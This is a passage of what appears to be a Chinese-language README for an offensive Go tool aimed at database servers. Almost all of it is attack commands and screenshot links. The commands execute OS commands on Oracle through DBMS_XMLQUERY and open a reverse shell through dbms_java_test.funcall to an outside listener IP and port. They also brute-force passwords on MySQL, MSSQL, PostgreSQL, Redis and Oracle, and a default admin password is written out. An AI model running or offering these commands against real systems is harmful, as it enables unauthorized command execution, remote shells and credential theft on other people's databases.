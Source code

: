 ![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673623859445-d8046463-699e-4655-89fe-995233d94ecc.png#averageHue=%231c3345&clientId=ucbc34b69-4b9d-4&from=paste&height=121&id=uc775ec0e&name=image.png&originHeight=181&originWidth=912&originalType=binary&ratio=1&rotation=0&showTitle=false&size=153479&status=done&style=none&taskId=ubcddcba3-563a-417f-9bad-cdf5d097250&title=&width=608)
### DBMS_XMLQUERY循环执行系统命令
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -dx -console
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673623939528-8eba3e38-34b9-4e52-8799-bb3d1509fa5e.png#averageHue=%232d2c2c&clientId=ucbc34b69-4b9d-4&from=paste&height=359&id=u95d5e0ce&name=image.png&originHeight=539&originWidth=2247&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112317&status=done&style=none&taskId=u5f887f71-3333-4988-8d50-67663f3ba69&title=&width=1498)
### DBMS_XMLQUERY执行单条系统命令
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -dx -docmd -cmd "whoami"
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673624066692-d9d54ab0-7d3b-46c1-9a23-5456373d928d.png#averageHue=%232d2c2c&clientId=ucbc34b69-4b9d-4&from=paste&height=244&id=ud170fc40&name=image.png&originHeight=366&originWidth=2351&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88999&status=done&style=none&taskId=u4e1a65c9-08aa-4c34-883f-4af769e6da2&title=&width=1567.3333333333333)
### 卸载命令执行函数
```shell
go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -del
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673624027931-10678763-bf42-472a-a91d-e640b3c1555f.png#averageHue=%232d2c2c&clientId=ucbc34b69-4b9d-4&from=paste&height=185&id=u230a0fb8&name=image.png&originHeight=277&originWidth=2261&originalType=binary&ratio=1&rotation=0&showTitle=false&size=68992&status=done&style=none&taskId=u517c2117-9036-4b39-a465-b569c694f44&title=&width=1507.3333333333333)
### **dbms_java_test.funcall反弹shell**
```shell
 go run .\main.go -oracle -rhost 192.168.111.139 -rport 1521 -ruser system -pwd "1qaz@WSX" -sid lhr10g -lhost 175.178.233.198 -lport 7776 -fc 
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673624130369-ef91ff5e-7b6d-426d-9a4d-a195c4da0a32.png#averageHue=%232d2d2c&clientId=ucbc34b69-4b9d-4&from=paste&height=203&id=u7976a237&name=image.png&originHeight=304&originWidth=2287&originalType=binary&ratio=1&rotation=0&showTitle=false&size=88970&status=done&style=none&taskId=u8c491d7c-1038-46ac-b415-fbf388a9431&title=&width=1524.6666666666667)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1673624155908-1da47b35-40eb-4b39-abc6-0aead14e962b.png#averageHue=%231e3648&clientId=ucbc34b69-4b9d-4&from=paste&height=117&id=uae5a3a14&name=image.png&originHeight=176&originWidth=1204&originalType=binary&ratio=1&rotation=0&showTitle=false&size=188379&status=done&style=none&taskId=ua91bf8ed-063e-4f7f-8ebd-1222742f0ae&title=&width=802.6666666666666)
## 爆破数据库账号密码
### Mysql
```
go run .\main.go -rhost 192.168.111.206 -rport 3306 -crack -m mysql
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675176813163-edc698cf-4d8d-4ecd-b459-e6c3951d08a2.png#averageHue=%232d2c2c&clientId=uf3dc0733-6a37-4&from=paste&height=153&id=u8d9a68c6&name=image.png&originHeight=230&originWidth=1665&originalType=binary&ratio=1&rotation=0&showTitle=false&size=51404&status=done&style=none&taskId=ud314a94b-753a-4325-bc31-c21e484e977&title=&width=1110)
### MSSQL
```shell
go run .\main.go -rhost 192.168.111.223 -rport 1433 -crack -m mssql
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675183775890-0845515d-5a4c-475c-a28f-6e9bb6ea385e.png#averageHue=%232c2c2b&clientId=uf3dc0733-6a37-4&from=paste&height=483&id=u6fe135f5&name=image.png&originHeight=725&originWidth=1634&originalType=binary&ratio=1&rotation=0&showTitle=false&size=141874&status=done&style=none&taskId=u0c8a6358-73a1-4a28-bf17-88a87d4b93f&title=&width=1089.3333333333333)
### Postgresql
```shell
go run .\main.go -rhost 192.168.111.211 -rport 5432 -crack -m postgresql
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675183814719-c9714b53-1246-46f7-badd-da2ab5a4a829.png#averageHue=%232d2c2c&clientId=uf3dc0733-6a37-4&from=paste&height=751&id=u2a5aedcc&name=image.png&originHeight=1126&originWidth=1606&originalType=binary&ratio=1&rotation=0&showTitle=false&size=264923&status=done&style=none&taskId=u52ab6436-8908-4822-b0fd-ebc06ed4f59&title=&width=1070.6666666666667)
### Redis
```shell
go run .\main.go -rhost 192.168.111.211 -rport 6379 -crack -m redis
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675183848971-060694b2-5666-436a-abd8-738254a1ba1e.png#averageHue=%232f2e2d&clientId=uf3dc0733-6a37-4&from=paste&height=49&id=u86edd1aa&name=image.png&originHeight=74&originWidth=1538&originalType=binary&ratio=1&rotation=0&showTitle=false&size=23762&status=done&style=none&taskId=ubc61896d-0d4f-46f8-bfb9-bc38cb89d95&title=&width=1025.3333333333333)
### Oracle
```shell
go run .\main.go -rhost 192.168.111.211 -rport 1521 -crack -m oracle
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/22017589/1675183934258-2ace77e2-b03f-4f51-8bb4-ab63ffb85793.png#averageHue=%232d2c2c&clientId=uf3dc0733-6a37-4&from=paste&height=209&id=ud7226210&name=image.png&originHeight=314&originWidth=2233&originalType=binary&ratio=1&rotation=0&showTitle=false&size=83538&status=done&style=none&taskId=u42e7626e-4bf4-40b8-8f42-895a951d6ac&title=&width=1488.6666666666667)
